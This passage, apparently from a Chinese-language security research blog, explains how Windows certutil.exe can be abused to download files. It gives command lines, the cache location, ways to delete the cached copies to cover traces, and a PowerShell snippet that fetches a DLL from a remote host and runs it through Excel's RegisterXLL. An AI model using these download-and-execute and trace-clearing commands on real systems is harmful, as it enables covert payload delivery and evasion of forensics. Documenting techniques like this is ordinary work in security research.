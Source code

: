 (2) 保存在当前路径，指定保存文件名称

eg：

`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt file.txt`

(3) 保存在缓存目录，名称随机

缓存目录位置： `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`

eg：

`certutil.exe -urlcache -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt`

(4) 支持保存二进制文件

eg：

`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll`

**注：**

使用downloader默认在缓存目录位置： `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`保存下载的文件副本

**清除下载文件副本方法：**

**方法1：** 直接删除缓存目录对应文件

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-26/2-1.png)

**方法2：** 命令行:

`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll delete`

**补充：**

查看缓存项目：

`certutil.exe -urlcache *`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-26/2-2.png)

**实际测试：**

测试系统安装Office软件，下载执行dll对应的powershell代码如下：

```
$path="c:\test\msg1.dll"
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll $path
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))
$excel.RegisterXLL($path)
```

测试如下图
